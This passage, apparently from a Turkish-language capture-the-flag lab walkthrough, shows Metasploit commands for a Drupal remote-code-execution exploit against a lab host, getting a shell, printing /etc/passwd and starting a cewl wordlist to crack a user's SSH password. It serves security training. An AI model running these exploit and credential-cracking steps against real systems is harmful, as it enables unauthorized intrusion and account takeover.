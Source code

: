 `   exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution` isimli exploiti kullanarak sisteme girebiliriz.

`use` komutu ile exploiti seçelim. Ardından `set` komutu ile `RHOST` ve `RPORT` parameterlerine gerekli değerleri atayalım. Burada IP adresi sizde farıklı olabilir. Sizdeki IP adresini girmelisiniz. Ardından `exploit` diyerek exploiti çalıştırabiliriz.

```
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOST 172.16.0.177
set RPORT 1898
exploit
```

Ardından `meterpreter` açılacak. Yardım için `help` komutunu girebilirsiniz. Ben `shell` komutu ile shell aldım. Biraz dizinlerde dolaştıktan bazı dosyaları inceledikten sonra `/etc/passwd` dosyasına baktım. Çıktı şu şekilde olacak:
```
cat /etc/passwd
tiago:x:1000:1000:tiago,,,:/home/tiago:/bin/bash
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent
```

Dosyayı incelediğimizde `tiago` kullanıcısını görüyoruz. uid si ise 1000. Bu kullanıcı ile ssh üzerinden sisteme giriş yapabiliriz. Peki ya parolası???

## Cewl ve Hytra Kullancı Parolası Kırma

Onlarca başarısız deneme ve bolca uğraşdan sonra sonunda cevabı buldum. `cewl` aracı. Bu araç web sayfası üzerinden wordlist oluşturmaya yarıyor. O zaman `cewl` ile worlist oluşturalım :)

```
cewl -d 3 -m 5 http://172.16.0.177:1898/ -w cewl_pass_tiago.txt
```
